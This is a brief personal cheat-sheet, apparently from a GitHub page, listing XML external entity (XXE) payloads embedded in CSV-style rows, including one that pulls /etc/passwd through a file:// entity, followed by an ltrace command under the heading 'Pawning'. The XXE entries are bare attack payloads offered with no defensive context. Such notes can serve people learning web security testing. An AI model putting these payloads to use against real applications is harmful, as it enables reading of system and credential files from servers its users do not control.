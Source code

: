 XXE payloads
-------------------------------------------------------------------------------
```<!DOCTYPE warren [ <!ENTITY var SYSTEM "test" > ]>

id,name,email
a,&var;,z     //var =test 

<!DOCTYPE warren [ <!ENTITY var SYSTEM "file:///etc/passwd" > ]>

id,name,email
a,&var;,z
```
---------------------------------------------------------------------------------


Pawning
-----------------------------------------------------
```
ltrace -S -f -i ./prgram_name 
```
